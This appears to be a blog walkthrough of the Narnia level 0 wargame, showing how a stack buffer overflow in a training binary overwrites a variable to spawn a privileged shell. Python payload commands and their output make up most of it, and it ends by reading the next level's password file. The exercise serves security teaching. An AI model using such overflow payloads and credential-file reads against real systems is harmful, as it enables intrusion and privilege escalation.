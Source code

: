 Lines 8 and 9 tell us what we need to do. So knowing how variable allocation
on the stack works, we can exploit the setup on lines 5 and 6. `buf` is a 
fixed size and is allocated *after* `val`. Therefore it sits above `val` on
the stack. As there is no [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
we should be able to write over the end of `buf` and overwrite what is in memory
at `val`'s location.

So let's try it

{% highlight console %}
narnia0@melinda:/narnia$ python -c "print 'C'*50" | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCCCCC
val: 0x43434343
WAY OFF!!!!
{% endhighlight %}

Right, we can confirm that we are able to change the value of `val`. Let's
tread a bit more carefully and try to see if we can do it more accurately

{% highlight console %}
narnia0@melinda:/narnia$ python -c "print 'C'*20 + 'BBBB'" | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCBBBB
val: 0x42424242
WAY OFF!!!!
{% endhighlight %}

So there is no space between `val` and `buf`, therefore 20 characters plus a 
further 4 is enough to change val. Let's write in the correct value, reversed of
course because of the endian notation

{% highlight console %}
narnia0@melinda:/narnia$ python -c "print 'C'*20 + '\xef\xbe\xad\xde'" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
val: 0xdeadbeef
narnia0@melinda:/narnia$
{% endhighlight %}

We did it.... but wait, where's the shell? It's closed, that's where it is. We
need to keep it open. The trick is to append the `cat` command to the input

{% highlight console %}
narnia0@melinda:/narnia$ (python -c "print 'C'*20 + '\xef\xbe\xad\xde'"; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
val: 0xdeadbeef
id
uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
[password]
{% endhighlight %}

